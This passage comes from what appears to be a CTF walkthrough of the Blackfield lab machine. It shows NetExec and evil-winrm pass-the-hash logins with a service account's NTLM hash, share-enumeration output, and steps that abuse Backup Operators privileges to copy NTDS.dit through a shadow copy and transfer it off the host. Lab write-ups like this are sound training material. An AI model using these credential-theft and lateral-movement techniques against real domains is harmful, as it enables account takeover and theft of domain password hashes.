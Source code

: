 ```bash
nxc smb 10.10.10.192 -u svc_backup -H b624dc83a27cc29da11d9bf25efea796 --shares
```

Denied.

```bash
nxc smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d --shares

SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d 
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$          READ            Remote Admin
SMB         10.10.10.192    445    DC01             C$              READ,WRITE      Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share                                         SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 
```

Success. We have read/write permissions on C$. Let’s see what privileges we have on bloodhound:

![image.png]({{ site.baseurl }}/assets/blackfield/image%203.png)

We are a member of backup operator and remote management. This means we can login via winrm. Membership of Backup Operators group grants its members the `SeBackup` and `SeRestore` privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents. We can try and get NTDS.dit.

## Privilege Escalation

NTDS.dit is *locked* by the system (LSASS) so you can’t read it directly. The usual reliable method is:

1. Create a **Volume Shadow Copy** (VSS) so you get a *consistent, readable snapshot* of the drive.
2. **Expose** that shadow as a drive letter (E:) so normal file APIs can read it.
3. Use backup-mode copy (or use SeBackupPrivilege) to copy `ntds.dit` from the exposed snapshot into a local path you can access (C:\Users\svc_backup\Documents\ntds.dit).
4. Transfer that copied file off the box (SMB).
    
    This avoids trying to read the live, locked file and avoids inconsistent / corrupted snapshots.
    

Let’s log on using evil-winrm:

```bash
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192
```

![image.png]({{ site.baseurl }}/assets/blackfield/image%204.png)
